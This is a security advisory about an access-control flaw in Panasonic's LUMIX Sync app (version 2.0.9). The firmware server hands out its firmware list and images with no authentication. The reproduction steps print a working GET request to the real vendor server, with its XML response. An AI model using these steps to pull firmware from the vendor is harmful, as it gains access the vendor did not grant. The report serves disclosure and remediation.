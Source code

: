 # Vulnerability Report - com.panasonic.jp.lumixsync- Incorrect Access Control

**Product:** `com.panasonic.jp.lumixsync`

**Vendor:** [Panasonic Holdings Corporation](https://av.jpn.support.panasonic.com/support/software/lumix_sync/index.html?r)

**Version:** 2.0.9

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.panasonic.jp.lumixsync` , developed by **Panasonic Holdings Corporation**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `m8077ec`'s parameter value in the `run()`method provides the necessary URL and other information required for the HTTPS request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003192734872](https://s2.loli.net/2024/10/03/ktsnjvN1WoclV34.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://av.jpn.support.panasonic.com/support/share/eww/com/software/lumix_sync/firm_list.xml HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: av.jpn.support.panasonic.com
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Server: Apache
   Last-Modified: Tue, 23 Jul 2024 01:06:40 GMT
   ETag: "625-61ddfc62cc800"
   Accept-Ranges: bytes
   Content-Length: 1573
   X-Frame-Options: SAMEORIGIN
   X-XSS-Protection: 1; mode=block
   X-Content-Type-Options: nosniff
   Content-Type: text/xml
   Expires: Thu, 03 Oct 2024 11:30:25 GMT
   Cache-Control: max-age=0, no-cache, no-store
   Pragma: no-cache
   Date: Thu, 03 Oct 2024 11:30:25 GMT
   Connection: keep-alive
   Set-Cookie: SRV=2210ae29-8db4-4299-b024-6a23967b7269; path=/
   
   <?xml version="1.0" encoding="utf-8"?>
   
   <firm_list version="1.0" date="20240723">
   
       <!--カメラボディ-->
       <body>
   
           <!--DC-S5-->
           <firm modelNumber="DC-S5" version="2.7" url="https://panasonic.jp/support/share/eww/com/software/lumix_sync/dsc/ff/s5___v27/firm_info.xml">
           </firm>
   
           <!--DC-GH6-->
           <firm modelNumber="DC-GH6_" version="3.0" url="https://panasonic.jp/support/share/eww/com/software/lumix_sync/dsc/fts/gh6__v30/firm_info.xml">
           </firm>
   ```

   Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003193447189](https://s2.loli.net/2024/10/03/zpT1VoNE5HS2nrl.png)

   In total, we successfully downloaded **7 firmware** by exploiting the vulnerability.


## Impact

An attacker can exploit this vulnerability to:

- Download the latest firmware before it is officially released.
- Analyze the firmware for vulnerabilities or proprietary information.
- Create modified firmware images with malicious code.
- Distribute compromised firmware updates to unsuspecting users.

## Remediation

- Implement proper access control on the firmware server, such as device ID and user ID verification.
- Enhance the app's firmware update mechanism to include authentication credentials in the requests.

## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.